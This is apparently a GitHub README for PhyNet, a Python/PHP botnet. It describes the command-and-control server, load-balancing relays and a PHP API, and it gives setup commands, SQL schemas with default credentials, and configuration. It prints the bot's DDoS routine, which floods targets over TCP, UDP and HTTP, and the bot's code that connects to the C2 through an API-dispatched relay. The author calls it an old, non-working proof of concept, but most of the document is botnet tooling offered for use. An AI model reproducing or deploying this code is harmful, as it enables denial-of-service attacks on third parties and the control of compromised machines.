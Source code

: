 # PhyNet
 phynet is a botnet coded in python and php, wich is using relays for balancing bots and uses only one cnc.  
 phynet is an old project in bad languages for a botnet and actually not working, you may want to uses oldest versions, you can consider this code as a POC of a easy balanced botnet

# CNC
Def: "Command and Control" (C&C) servers are centralized machines that are able to send commands and receive outputs of machines part of a botnet. Anytime attackers who wish to launch a DDoS attack can send special commands to their botnet's C&C servers with instructions to perform an attack on a particular target, and any infected machines communicating with the contacted C&C server will comply by launching a coordinated attack.   

My cnc works with a relay (which will relay the commands to the bots to avoid an overload of the cnc server), it also works with an api which will be mainly used to register the relay servers to be able to dispatch the bots on the server having the least load, the api will also be used to login on the cnc

for setup the [cnc](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/cnc.py):  
```batch
python3 cnc.py <port>
```
or just `make cnc` with the makefile

The cnc password is stored in the sql database, the cnc uses the page [login.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/login.php) for login, like this we doesn't have to keep a raw text file with the password in it, moreover the password is a combo of sha512(sha256(password)) and is inserted with the following sql command: 
```sql
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
```
here the default username is **root** and the default password is **toor**

# RELAY
for setup the [relay](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/relay.py):  
```batch
python3 relay.py <port>
```
or just `make relay` with the makefile

# API
for setup the [api](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2), you need a database:
## API Database:
```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";

DROP TABLE IF EXISTS `gkeys`;
CREATE TABLE IF NOT EXISTS `gkeys` (
  `gkey` text COLLATE utf8_unicode_ci NOT NULL,
  `ogkey` text COLLATE utf8_unicode_ci NOT NULL,
  `relay` text COLLATE utf8_unicode_ci NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `relays`;
CREATE TABLE IF NOT EXISTS `relays` (
  `relay_ip` text COLLATE utf8_unicode_ci NOT NULL,
  `relay_bots` int NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

DROP TABLE IF EXISTS `users`;
CREATE TABLE IF NOT EXISTS `users` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` text COLLATE utf8_unicode_ci NOT NULL,
  `password` text COLLATE utf8_unicode_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb3 COLLATE=utf8_unicode_ci;

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'root', 'a528e21133187fecdd0c8f5c583733cfe86e7b6e3857dcd5682f6f54fb17fcce8f9da13c8c90854741df8d096f3d415291a4f6b7f08028a47c6abc82a2ea760c');
COMMIT;
```
(the password encryption is sha512)   
In php you can use this function for generate a password
```php
function createAccount(string $usr, string $password): bool {
    global $conn; // ensure to have the db conn

    // the final password is sha512(sha256(password))
    $password = hash('sha256', $password);
    $password = hash('sha512', $password);

    // insert the new user in the database
    $stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
    $stmt->bind_param("ss", $usr, $password);
    $result = $stmt->execute();

    return $result;
}
```
Next, you need an php server for copy the api file ([SERVER/api/v1](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2))  
After you have to configure the database in the php script ([SERVER/api/v1/db_conn/db_connn.php](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/api/v2/db/db_conn.php))  
```php
$sname = "localhost";
$unmae = "root";
$password = "";
$db_name = "phybot";
$conn = mysqli_connect($sname, $unmae, $password, $db_name);

if (!$conn) {
	echo json_encode("db_connection_failed", JSON_PRETTY_PRINT);
}
```
You have to change your api url in:  
> the zomb ([CLIENT/zomb.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/bot/zomb.py)) `API_URL: str = "http://localhost/phybot/api/v1"` (L28),  
> the cnc config ([SERVER/cnc.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/cnc/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L42),  
> and the relay config ([SERVER/relay.py](https://github.com/4lxprime/PhyNet/blob/main/PhyNet/server/relay/modules/config.py)) `api_url="http://localhost/phybot/api/v1"` (L41)  

# ZOMB
you may want to compile the bot with nuitka (create a fast executable file because the python code is transpiled to c and compiled)
but the simple command for running it is:
```batch
python3 zomb.py
```
and you can just build it with the command `make build-bot`

## ZOMB DDOS Code: 
```python
def dos(
    s: sock,
    attack: tuple[str, int],
    tps: int,
    method: str,
) -> None: # start dos attack with socket and attack target
    tps += int(time()) # set the attack time with actual time + attack time

    match method:
        case "TCP":
            log("TCP")
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(bytes(PAYLOAD, "utf-8"))
                except: pass

        case "UDP":
            log("UDP")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass

        case "HTTP":
            while time() < tps:
                try:
                    s.connect(attack)
                    while time() < tps:
                        s.send(f'GET / HTTP/1.1\r\nHost: {attack[0]}\r\nUser-Agent: {rand_ua()}\r\nConnection: keep-alive\r\n\r\n'.encode())

                except: s.close()

        case _:
            log("Unknown")
            while time() < tps:
                try:
                    s.sendto(bytes(PAYLOAD, "utf-8"), attack)
                except: pass
```
## The ZOMB Socket Connection
```python
c2: sock = sock(AF_INET, SOCK_STREAM)
c2.setsockopt(SOL_SOCKET, SO_KEEPALIVE, 1)

while 1:
    try:
        RELAY_ADDR: str = rget(f"{API_URL}/dispatch.php?urlkey={URL_KEY}", timeout=5000).text

        raddr.clear()
        raddr.append(RELAY_ADDR)

        c2.connect((RELAY_ADDR, RELAY_PORT))

        log((RELAY_ADDR, RELAY_PORT))

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Username' in data:
                c2.send('BOT'.encode())
                log("send bot")
                break

        while 1:
            data: str = c2.recv(1024).decode()

            if 'Password' in data:
                c2.send('\xff\xff\xff\xff\75'.encode('cp1252'))
                log("send bot string")
                break

        break
    except: sleep(240)
```
